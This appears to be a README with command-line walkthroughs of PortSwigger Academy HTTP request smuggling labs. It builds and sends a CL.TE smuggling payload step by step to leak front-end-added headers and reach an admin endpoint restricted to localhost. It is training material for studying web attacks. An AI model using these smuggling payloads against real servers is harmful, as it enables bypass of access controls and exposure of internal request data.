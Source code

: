 # Examples


The aim is to perform request smuggling from command line. The aim is not to totally replace Burp Suite but to propose another approach., with more CLi.

**Why That?**
* To learn
* Be able to solve challenge from CLi enable us to script resolution, automate exploit etc ...

The following examples are an alternative to PortSwigger Burp solutions provided for the PortSwigger Burp academy. They use:
* [`httpcustomhouse`](https://github.com/ariary/HTTPCustomHouse): to simulate server behavior regarding `Content-Length` and chunk encoding
* [`httpoverride`](https://github.com/ariary/HTTPCustomHouse): to change headers of raw request for people not at ease with `sed` 
* [`httpecho`](https://github.com/ariary/httpecho): HTTP echo server echoing request exactly as it is received
* [`httpclient`](https://github.com/ariary/HTTPCustomHouse): `curl` for raw packet because curl, golang http client rewrite packet and `ncat` or `openssl s_client` aren't satisfying

Also to reproduce steps, Export an env var for the lab endpoint:
```shell
export LAB_URL=[YOUR_LAB_URL]
```

## [Exploiting HTTP request smuggling to reveal front-end request rewriting](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting)


Browsing `/admin` endpoint we've got: `Admin interface only available if logged in as an administrator, or if requested from 127.0.0.1`

We also know that:
* The front-end server adds an HTTP header to incoming requests containing their IP address. We have to find its name
* The front-end does not support chunk encoding


### I - Find a POST parameter that is reflected in response
use [`arjun`](https://github.com/s0md3v/Arjun), a tool to detect parameters for URL:
```shell
arjun -u https://$LAB_URL
[...]
[+] Heuristic scanner found 1 parameter: search
```

Confirm with it curl request:
```shell
curl -X POST https://$LAB_URL -s --data "search=toto" | grep "toto" -C 10 --color
[...]                    <section class=blog-header>
                        <h1>0 search results for 'toto'</h1>
                        <hr>
                    </section>
[...]
```
Indeed, the `search` parameter is reflected in h1 tag

### II - Construct legitimate request that reflect parameters
```shell
# in one shell
httpecho -d search
# in another shell
curl -X POST http://localhost:8888/ --data "search=toto" -H "Host: $LAB_URL" -H 'User-Agent:'  -H 'Accept:'
# empty headers to withdraw curl default ones
```

### III - Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal

To smuggle the request "embed" it in a normal request. The request will include a large Content-Length. As the back-end use it, it will also include the first characters of the next request (which is provided by front end) **=> Added front-end headers can thus be accessible in the response 💥 **

To construct this request:

**1.** Modify the search request with a larger `Content-Length` + w/o `Host` + add `Connection: close` (close teh Connection between server and client to be sure to get the response):
```shell
cat search | httpoverride -H Content-Length -v 200 | httpoverride -H Host -d | httpoverride -H Connection -v close > search_modify
```

**2.** Add end of chunk encoding before the `search_modify` request, it is the payload:
```shell
# Add end of chunk encoding:
printf "0\r\n\r\n$(cat search_modify)" > payload
```

**3.** Construct the smuggle request (with `httpecho`):
```shell
curl -s -X POST http://localhost:8888/ --data-binary "@payload" -H "Host: $LAB_URL" -H 'User-Agent:'  -H 'Accept:' | httpoverride -H Transfer-Encoding -v chunked > smuggle
```

Send the request:
```shell
cat smuggle | ./httpclient https://$LAB_URL
```
